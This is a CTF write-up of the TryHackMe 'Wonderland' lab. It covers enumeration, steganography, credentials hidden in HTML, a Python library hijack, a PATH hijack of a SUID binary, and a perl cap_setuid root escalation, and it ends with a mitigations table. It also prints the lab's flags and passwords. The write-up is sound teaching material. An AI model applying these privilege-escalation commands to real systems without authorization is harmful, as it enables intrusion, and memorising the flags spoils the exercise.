




# CTF Write-Up: [Wonderland](https://tryhackme.com/room/wonderland)

> **Platform:** TryHackMe | **Difficulty:** Medium

---

## 🚩 Flags

<details><summary>User Flag</summary><code>thm{"Curiouser and curiouser!"}</code></details>
<details><summary>Root Flag</summary><code>thm{Twinkle, twinkle, little bat! How I wonder what you're at!}</code></details>

---

## 1. Reconnaissance

### Initial Nmap Scan

```bash
nmap -vv -oN Nmap/Initial <IP_ADDRESS>
```

```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

### Detailed Nmap Scan

```bash
nmap -vv -oN Nmap/Detailed -A -p 22,80 <IP_ADDRESS>
```

| Port | Service | Version | Notes |
|------|---------|---------|-------|
| 22 | SSH | OpenSSH 7.6p1 | Ubuntu 4ubuntu0.3 |
| 80 | HTTP | Golang net/http server | Title: "Follow the white rabbit." |

Two ports open — SSH and a Go-based HTTP server serving a themed Alice in Wonderland landing page.

### Web Enumeration (Gobuster)

```bash
gobuster dir -u http://<IP_ADDRESS>/ -w /usr/share/wordlists/dirb/common.txt -o gobuster.txt
```

```
img        (Status: 301) [--> img/]
index.html (Status: 301) [--> ./]
r          (Status: 301) [--> r/]
```

`/r` standing alone immediately suggested a path pattern. Combined with the steganography hint below, the full path became clear.

---

## 2. Steganography — Image Enumeration



The landing page served a White Rabbit image. Downloaded and extracted hidden data:

```bash
steghide extract -sf Rabbit.jpeg
# Enter passphrase: (empty)
# wrote extracted data to "hint.txt"

cat hint.txt
# follow the r a b b i t
```

> ℹ️ The hint spells out `/r/a/b/b/i/t` — a nested directory path on the web server.

---

## 3. Credential Discovery — Hidden HTML

Each subdirectory level was navigated manually:

`http://<IP_ADDRESS>/r`



`http://<IP_ADDRESS>/r/a`


`http://<IP_ADDRESS>/r/a/b`



`http://<IP_ADDRESS>/r/a/b/b`


`http://<IP_ADDRESS>/r/a/b/b/i`



`http://<IP_ADDRESS>/r/a/b/b/i/t`


Viewing the page source at `/r/a/b/b/i/t/` revealed credentials hidden in a `display: none` paragraph:

```html
<p style="display: none;">alice:HowDothTheLittleCrocodileImproveHisShiningTail</p>
```

| Username | Password |
|----------|----------|
| `alice` | `HowDothTheLittleCrocodileImproveHisShiningTail` |

---

## 4. Initial Access

```bash
ssh alice@<IP_ADDRESS>
```

✅ Shell as `alice`.

```bash
ls -la ~
```

```
-rw------- 1 root  root    66 May 25  2020 root.txt
-rw-r--r-- 1 root  root  3577 May 25  2020 walrus_and_the_carpenter.py
```

> ⚠️ **Room reversal**: `root.txt` is in `/home/alice/` and `user.txt` is in `/root/`. The flags are deliberately swapped.

```bash
cat /root/user.txt
```

> 🚩 `thm{"Curiouser and curiouser!"}`

---

## 5. Lateral Movement — alice → rabbit

### Enumeration

```bash
sudo -l
```

```
User alice may run the following commands on wonderland:
    (rabbit) /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
```

Inspecting the script:

```bash
cat walrus_and_the_carpenter.py
```

```python
import random
...
for i in range(10):
    line = random.choice(poem.split("\n"))
    print("The line was:\t", line)
```

The script uses `import random` with no absolute path. Python resolves modules by checking the script's directory before the standard library — a **Python library hijacking** opportunity.

### Exploitation

```bash
echo 'import os; os.system("/bin/bash")' > /home/alice/random.py
sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
```

✅ Shell as `rabbit`.

---

## 6. Lateral Movement — rabbit → hatter

### SUID Binary

```bash
ls -la /home/rabbit/
```

```
-rwsr-sr-x 1 root root 16816 May 25  2020 teaParty
```

Running the binary revealed its behaviour:

```bash
./teaParty
```

```
Welcome to the tea party!
The Mad Hatter will be here soon.
Probably by Mon, 30 Mar 2026 11:26:15 +0000
```

Reading the binary strings confirmed it calls `date` without a full path:

```
/bin/echo -n 'Probably by ' && date --date='next hour' -R
```

### Exploitation — PATH Hijacking

```bash
echo '/bin/bash' > /tmp/date
chmod +x /tmp/date
export PATH=/tmp:$PATH
./teaParty
```

✅ Shell as `hatter`.

```bash
cat /home/hatter/password.txt
# WhyIsARavenLikeAWritingDesk?
```

SSH in as `hatter` for a stable session:

```bash
ssh hatter@<IP_ADDRESS>
# Password: WhyIsARavenLikeAWritingDesk?
```

---

## 7. Privilege Escalation — hatter → root

### Linux Capabilities

```bash
getcap -r / 2>/dev/null
```

```
/usr/bin/perl5.26.1 = cap_setuid+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/bin/perl       = cap_setuid+ep
```

`perl` has `cap_setuid+ep` — it can call `setuid(0)` to become root without being SUID itself. `+ep` means the capability is both **effective** and **permitted**, so it applies immediately on execution.

### Exploitation

```bash
/usr/bin/perl5.26.1 -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/bash";'
```

✅ Root shell obtained.

---

## 8. Root Flag

```bash
cat /home/alice/root.txt
```

> 🚩 `thm{Twinkle, twinkle, little bat! How I wonder what you're at!}`

---

## 9. Attack Chain

```
Nmap Scan
    └─► Port 22 (SSH), Port 80 (Go HTTP server)

Gobuster → /r detected
    └─► steghide on Rabbit.jpeg → hint.txt → "follow the r a b b i t"
    └─► Manual traversal → /r/a/b/b/i/t → page source → alice:HowDothTheLittleCrocodileImproveHisShiningTail

ssh alice@<IP_ADDRESS>
    └─► Flag reversal → /root/user.txt: thm{"Curiouser and curiouser!"}

sudo -l → (rabbit) python3.6 walrus_and_the_carpenter.py
    └─► import random → Python lib hijack → /home/alice/random.py → shell as rabbit

/home/rabbit/teaParty (SUID root)
    └─► calls date without full path → PATH hijack via /tmp/date → shell as hatter
    └─► /home/hatter/password.txt → WhyIsARavenLikeAWritingDesk?

getcap -r / → /usr/bin/perl5.26.1 = cap_setuid+ep
    └─► POSIX::setuid(0) → root → /home/alice/root.txt: thm{Twinkle, twinkle, little bat! How I wonder what you're at!}
```

---

## 10. Vulnerabilities & Mitigations

| # | Vulnerability | Impact | Mitigation |
|---|---------------|--------|------------|
| 1 | Credentials embedded in hidden HTML element (`display: none`) | Unauthenticated credential disclosure | Never store credentials in client-side HTML; use server-side authentication |
| 2 | `sudo` rule allows alice to run a Python script as rabbit | Lateral movement | Restrict sudo rules to specific trusted scripts; avoid granting sudo over user-writable directories |
| 3 | Python library hijack via relative `import random` in sudo-executed script | Code execution as rabbit | Use absolute imports or `importlib`; ensure script directories are not writable by the invoking user |
| 4 | SUID binary calls `date` without an absolute path | Lateral movement via PATH hijack | Always use absolute paths in privileged binaries (`/bin/date` not `date`) |
| 5 | `perl` granted `cap_setuid+ep` capability | Full root compromise | Remove unnecessary capabilities; audit regularly with `getcap -r /`; apply principle of least privilege |

---

*Wonderland — TryHackMe | Rooted ✅*